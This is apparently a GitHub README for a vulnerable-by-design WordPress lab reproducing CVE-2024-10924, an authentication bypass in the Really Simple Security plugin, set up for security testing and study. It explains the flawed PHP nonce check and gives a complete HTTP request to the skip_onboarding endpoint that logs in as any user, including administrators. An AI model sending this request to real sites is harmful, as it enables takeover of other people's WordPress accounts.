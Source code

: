 # wordpress-really-simple-security-authn-bypass-vulnerable-application

This is a vulnerable application to test the exploit for the **Really Simple Security** < 9.1.2 authentication bypass (CVE-2024-10924).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application. The only purpose of this application is to be a test scenario for the Really Simple Security < 9.1.2 authentication bypass (CVE-2024-10924) exploit and it should not be used maliciously. If your server is compromised via an installation of this application it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2024-10924
* **Link**: [https://www.cve.org/CVERecord?id=CVE-2024-10924](https://www.cve.org/CVERecord?id=CVE-2024-10924)
* **Description**: This makes it possible for unauthenticated attackers to log in as any existing user on the site, such as an administrator, when the "*Two-Factor Authentication*" setting is enabled (disabled by default).
* **Fix:** [https://plugins.trac.wordpress.org/changeset/3188431/really-simple-ssl](https://plugins.trac.wordpress.org/changeset/3188431/really-simple-ssl)
* **Wordfence bulletin:** [https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass](https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass)

## Usage

Here the steps to **setup** the environment:
1. Launch `./up.sh` to start composition.
2. Complete the installation of WordPress here: [https://localhost:1337/wp-admin/install.php](http://localhost:1337/wp-admin/install.php).
3. Login into WordPress.
4. Go to "*Plugins*": [https://localhost:1337/wp-admin/plugins.php](http://localhost:1337/wp-admin/plugins.php).
5. Click on "*Activate*" under the "*Really Simple Security*" plugin. **DO NOT UPDATE IT**, since we need the vulnerable version.
6. Click on "*Cancel*" on the popup referring to SSL activation.
7. Go to "*Settings*" > "*Login Protection*" > "*Two-Factor Authentication*" and, in the "*Two-Factor Authentication*" section, enable "*Enable Two-Factor Authentication*".
8. Click the "*Save*" button.

The container will be called `vuln-wp-really-simple-security`.

To **teardown** the environment use `./down.sh` command or `./down_and_delete.sh` command to also remove images and the volume of the database.

## Root cause

Having a look at the [fix](https://github.com/Really-Simple-Plugins/really-simple-ssl/commit/33b6bae321f437f5d822e7d7e03103915530c86c#diff-826cac126398ce784274642e7be5f5214f94d72e6ae8ee07303b5d485587fdce), it's possible to understand that in the vulnerable version an error object was returned, in case of invalid login nonce, by the `check_login_and_get_user()` function, without aborting the whole operation.

```php
private function check_login_and_get_user( int $user_id, string $login_nonce ) {
    if ( ! Rsssl_Two_Fa_Authentication::verify_login_nonce( $user_id, $login_nonce ) ) {
        return new WP_REST_Response( array( 'error' => 'Invalid login nonce' ), 403 );
    }

    /**
     * Get the user by the user ID.
     *
     * @var WP_User $user
     */
    $user = get_user_by( 'id', $user_id );
    return $user;
}
```

In the caller, by the way, no check was performed on the output of the `check_login_and_get_user()` function ([line 277](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/eb1ac89afa36661bfbb1992edc930fe809a9c88d/security/wordpress/two-fa/class-rsssl-two-factor-on-board-api.php#L277)), but simply going further with the `authenticate_and_redirect()` function ([line 278](https://github.com/Really-Simple-Plugins/really-simple-ssl/blob/eb1ac89afa36661bfbb1992edc930fe809a9c88d/security/wordpress/two-fa/class-rsssl-two-factor-on-board-api.php#L278)) using the same value received from input for the user ID.

```php
public function skip_onboarding( WP_REST_Request $request ): WP_REST_Response {
	$parameters = new Rsssl_Request_Parameters( $request );
	// As a double we check the user_id with the login nonce.
	$user = $this->check_login_and_get_user( (int)$parameters->user_id, $parameters->login_nonce );
	return $this->authenticate_and_redirect( $parameters->user_id, $parameters->redirect_to );
}
```

## Exploit

To exploit the vulnerability, a request like the following is sufficient.

```http
POST /?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding HTTP/1.1
Host: localhost:1337
Content-Type: application/json
Content-Length: 88
Connection: keep-alive

{
    "user_id": 1,
    "login_nonce": "133333337",
    "redirect_to": "/wp-admin/"
}
```

Then setting accordingly the returned session cookies in the browser.

The `user_id` must be the ID of the target user, the `login_nonce` can be anything since a wrong value won't block the process.

## Authors

* **Antonio Francesco Sardella** - *implementation* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the Unlicense - see the **LICENSE** file for details.

## Acknowledgments

* [**István Márton**](https://www.wordfence.com/threat-intel/vulnerabilities/detail/really-simple-security-free-pro-and-pro-multisite-900-9111-authentication-bypass), the security researcher who discovered the vulnerability.
